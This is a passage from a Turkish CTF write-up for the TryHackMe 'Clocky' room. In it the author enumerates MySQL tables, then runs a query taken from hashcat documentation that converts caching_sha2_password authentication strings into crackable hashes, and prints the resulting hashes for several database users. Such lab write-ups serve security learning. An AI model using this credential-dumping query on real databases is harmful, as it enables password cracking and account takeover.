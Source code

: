 ````console
| replication_asynchronous_connection_failover_managed |
| replication_group_configuration_version              |
| replication_group_member_actions                     |
| role_edges                                           |
| server_cost                                          |
| servers                                              |
| slave_master_info                                    |
| slave_relay_log_info                                 |
| slave_worker_info                                    |
| slow_log                                             |
| tables_priv                                          |
| time_zone                                            |
| time_zone_leap_second                                |
| time_zone_name                                       |
| time_zone_transition                                 |
| time_zone_transition_type                            |
| user                                                 |
+------------------------------------------------------+
37 rows in set (0.00 sec)

mysql> select * from user;
````

user tablosundaki verileri görmeye çalıştığımda makine yüzüme tükürüyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/24.png?raw=true)


hashcat sayfasında şöyle bir sorgu buldum:
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/25.png?raw=true)



`SELECT user, CONCAT('$mysql', SUBSTR(authentication_string,1,3), LPAD(CONV(SUBSTR(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%';` sorgusunu kullanarak hash'leri uygun formatta görüntüledim.


````console
mysql> SELECT user, CONCAT('$mysql', SUBSTR(authentication_string,1,3), LPAD(CONV(SUBSTR(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user WHERE plugin = 'caching_sha2_password' AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%';
+------------------+-----------------------------------------------------------------------------------------------------------------------------------------------+
| user             | hash                                                                                                                                          |
+------------------+-----------------------------------------------------------------------------------------------------------------------------------------------+
| clocky_user      | $mysql$A$0005*077E1B6B675D350F435D5D1C686D12566C08635A*5566386F49543936423756525A68516962735568536535654B62486D344C71316B7338707A78446B4E4D39 |
| dev              | $mysql$A$0005*0D172F787569054E322523067049563540383D17*6F31786178584431332F4D6830726C6C6F652F5771636D6D6142444D46367237776A764647676F54536142 |
| clocky_user      | $mysql$A$0005*63671A7C5C3E425E3A0C794352306B531456162B*58774E44786D326C44443557334A39353531676A6C566D4F5A395A39684832537A61696C786D32566B4C2E |
| debian-sys-maint | $mysql$A$0005*456268331A4E3561236636480E4D3F78462A7553*716A4E6262555947697444712F79464C4D384C62617544683833517472615161455479366E5A5774576332 |
| dev              | $mysql$A$0005*1C160A38777C5121134E5D725A58216D5A1D5C3F*6F6B2F577851456465524C4E6771587057456634734A6F6E5A656361774655697A4438466F6B654935462E |
+------------------+-----------------------------------------------------------------------------------------------------------------------------------------------+
````

